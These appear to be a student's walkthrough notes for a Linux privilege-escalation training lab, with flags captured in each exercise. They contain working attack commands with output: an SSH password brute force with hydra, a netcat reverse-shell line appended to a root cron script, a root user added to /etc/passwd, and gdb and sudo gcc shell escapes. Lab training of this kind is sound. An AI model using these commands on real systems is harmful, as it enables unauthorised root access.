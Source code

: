 # User Trails

2. Connect to the VM 2 machine with the provided credentials and try to get the flag that resides under another user's file.

```bash
# Enumerate users
cat /etc/passwd
	root:x:0:0:root:/root:/bin/bash
	...
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	...
	sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
	...
	joe:x:1000:1000:joe,,,:/home/joe:/bin/bash
	systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
	eve:x:1001:1001:,,,:/home/eve:/bin/bash
	...

cat .bashrc
	# ~/.bashrc: executed by bash(1) for non-login shells.
	# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
	# for examples
	
	# If not running interactively, don't do anything
	case $- in
	    *i*) ;;
	      *) return;;
	esac
	
	# don't put duplicate lines or lines starting with space in the history.
	# See bash(1) for more options
	export SCRIPT_CREDENTIALS="lab"
	HISTCONTROL=ignoreboth
	...

# In attack machine create wordlist to attempt SSH brute force
crunch 6 6 -t Lab%%% > wordlist                                                 ## NOTE!!!!!!    <view below>
	Crunch will now generate the following amount of data: 7000 bytes
	0 MB
	0 GB
	0 TB
	0 PB
	Crunch will now generate the following number of lines: 1000

hydra ssh://192.168.231.214 -l eve -P wordlist
	...
	[DATA] attacking ssh://192.168.231.214:22/
	[22][ssh] host: 192.168.231.214   login: eve   password: Lab123
```
	- ## NOTE!!!!!!    For some reason, even though stored creds show a lowercase 'l', the password uses the uppercase.  Could be a course mats issue?

- Login as `eve` & retrieve flag
```bash
cat .bashrc
	  elif [ -f /etc/bash_completion ]; then
		. /etc/bash_completion
	  fi
	fi
	export PASSWORD=OS{d95b244a2df03c878ca3ca21b607901a}
```


# Service Footprints

2. Connect to VM 2 as the _joe_ user and retrieve the flag using one of the methods explained in this section.
```bash
watch -n 5 "ps -aux | grep OS{"
	Every 5.0s: ps -aux | grep OS{                                                                      debian-privesc: Wed May  1 14:49:01 2024
	
	root      1321  0.0  0.3  15328  6476 ?        S    14:47   0:00 python3 /root/.scripts/flag4.py OS{ecfa3948eb56a2bf37eff4bd96cfe866}
	joe       1554  0.0  0.1   6376  3324 pts/1    S+   14:48   0:00 watch -n 5 ps -aux | grep OS{
	joe       1593  0.0  0.0   6376   872 pts/1    S+   14:49   0:00 watch -n 5 ps -aux | grep OS{
	joe       1594  0.0  0.0   2384   696 pts/1    S+   14:49   0:00 sh -c ps -aux | grep OS{
	joe       1596  0.0  0.0   6072   820 pts/1    S+   14:49   0:00 grep OS{
```


# Insecure File Permissions

## Cron
2. Connect to VM 2 and look for another misconfigured cron job. Once found, exploit it and obtain a root shell in order to get a flag.
```bash
# Find insecure cron job
grep -i "cron" /var/log/syslog
	May  1 22:22:31 debian-privesc CRON[1318]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
	May  1 22:22:37 debian-privesc crontab[1338]: (root) LIST (root)
	May  1 22:22:37 debian-privesc crontab[1340]: (root) REPLACE (root)
	May  1 22:23:01 debian-privesc cron[505]: (root) RELOAD (crontabs/root)
	May  1 22:23:01 debian-privesc CRON[1368]: (root) CMD (/bin/bash /tmp/this_is_fine.sh)
	May  1 22:23:01 debian-privesc CRON[1369]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
	May  1 22:23:01 debian-privesc CRON[1367]: (CRON) info (No MTA installed, discarding output)

# Verify writeable
ls -l /tmp/this_is_fine.sh
	-rwxrwxrw- 1 root root 12 May  1 22:22 /tmp/this_is_fine.sh

# Add shell via named pipe
echo >> /tmp/this_is_fine.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.238 5555 >/tmp/f" >> /tmp/this_is_fine.sh

# Start nc listener on attacker vm & grab flag
nc -nlvp 5555
	listening on [any] 5555 ...
	connect to [192.168.45.238] from (UNKNOWN) [192.168.180.214] 52542
	/bin/sh: 0: can''t access tty; job control turned off
ls
	flag.txt
cat flag.txt
	OS{0e42cb3b8c8b22e3f79e1cf1c4e0f11e}
```


## Passwd Auth
Connect to VM 2 and get the flag by elevating to a root shell through password authentication abuse.
```bash
# Create hash
openssl passwd letsgo
	XDEq5.4QkkVVM

# Add user/ passwd
echo "rooot:XDEq5.4QkkVVM:0:0:root:/root:/bin/bash" >> /etc/passwd

# su to new user & grab flag
su rooot
	Password: 

whoami
	root

cd /root
ls
	flag.txt

cat flag.txt
	OS{86d5ee4209a4acf3b68489772581026d}
```


# Insecure System Components

## Setuid Capabilities
```bash
# Find binary with setuid capability enabled
/usr/sbin/getcap -r / 2>/dev/null | grep setuid
	/usr/bin/gdb = cap_setuid+ep
```

- Find exploit
![](gtfobins_gdbcapabilities.png)

```bash
# Abuse
/usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
	GNU gdb (Debian 8.2.1-2+b3) 8.2.1
	Copyright (C) 2018 Free Software Foundation, Inc.
	...
	For help, type "help".
	Type "apropos word" to search for commands related to "word".
	# ls
		Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
	# find / -name flag.txt 2>/dev/null
		/root/flag.txt
	# cat /root/flag.txt
		OS{e534f504e872c3af83048a6676aec75c}
```


## Sudo

2. Connect to VM 2 and gain a root shell by abusing a _sudo_ misconfiguration.
```bash
# Get list of sudo cmds available
sudo -l
	[sudo] password for joe: 
	Matching Defaults entries for joe on debian-privesc:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
	
	User joe may run the following commands on debian-privesc:
	    (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/gcc
```

- Research exploit from GTFObins
![](gtfobins_gccsudo.png)

- Abuse
```bash
sudo gcc -wrapper /bin/sh,-s .
	# id
		uid=0(root) gid=0(root) groups=0(root)
	# cat /root/flag.txt
		OS{dab4c20b044f5dfa647824f1ff181a2f}
```


## Kernel Vulns

2. **Capstone Exercise**: Connect to VM 2 with the provided credentials and gain a root shell by abusing a different kernel vulnerability.






3. **Capstone Exercise**: Connect to the VM 3 with the provided credentials and use an appropriate privilege escalation technique to gain a root shell and read the flag.





4. **Capstone Exercise**: On the Module Exercise VM 4, use another appropriate privilege escalation technique to gain access to root and read the flag. Take a closer look at file permissions.




5. **Capstone Exercise**: Again, use an appropriate privilege escalation technique to gain access to root and read the flag on the Module Exercise VM 5. Binary flags and custom shell are what to look for.